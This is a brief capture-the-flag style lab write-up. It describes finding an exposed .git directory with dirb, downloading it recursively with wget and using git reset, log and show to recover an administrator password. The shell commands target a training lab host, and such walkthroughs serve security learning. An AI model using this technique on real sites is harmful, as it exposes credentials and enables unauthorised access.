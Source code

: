 Title: Information disclosure in version control history
Level: Beginner
Desc: This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete the user carlos. 

I found, that the app use .git directory by scanning it by dirb.
![image](https://github.com/user-attachments/assets/f67a2e81-dc10-4c8c-8561-647212f6110e)


![image](https://github.com/user-attachments/assets/003d6fc1-7628-49e5-8ae6-a536ed408912)

I downloaded files from .git directory and then I check command "git show" to check informations about last commit.

```
 2052  sudo wget -r  https://0a6e00430411708380b2cbd8005a00b2.web-security-academy.net/.git/
 2054  cd 0a6e00430411708380b2cbd8005a00b2.web-security-academy.net
 2066  sudo git reset --hard
 2068  sudo git log
 2070  sudo git show
```


![image](https://github.com/user-attachments/assets/e8c446d9-99af-4029-bf70-0bf45ab7597b)



